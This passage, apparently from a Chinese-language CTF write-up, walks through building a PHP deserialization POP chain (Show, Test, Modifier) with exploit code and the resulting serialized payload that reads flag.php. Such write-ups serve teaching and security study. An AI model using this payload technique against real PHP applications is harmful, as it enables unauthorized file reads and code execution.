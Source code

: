     ![POP链构造 1](./images/ser3.png) (类定义)
    *   **Payload 构造:** 按照链条反向构造对象：
        ```php
        <?php
        class Modifier { protected $var = 'flag.php'; }
        class Test { public $p; }
        class Show { public $source; public $str; }

        $modifier = new Modifier();
        $test = new Test(); $test->p = $modifier; 
        $show1 = new Show(); $show1->str = $test;
        // 注意 __wakeup 的 echo $this->source 触发链，所以外层 Show 的 source 属性需要是另一个 Show 实例
        $show2 = new Show(); $show2->source = $show1; // 外层 Show

        echo urlencode(serialize($show2));
        ?>
        ```
        生成的 Payload (部分)：`O:4:"Show":2:{s:6:"source";O:4:"Show":2:{s:6:"source";N;s:3:"str";O:4:"Test":1:{s:1:"p";O:8:"Modifier":1:{s:13:"%00*%00var";s:8:"flag.php";}}}s:3:"str";N;}` (注意 protected 属性格式)
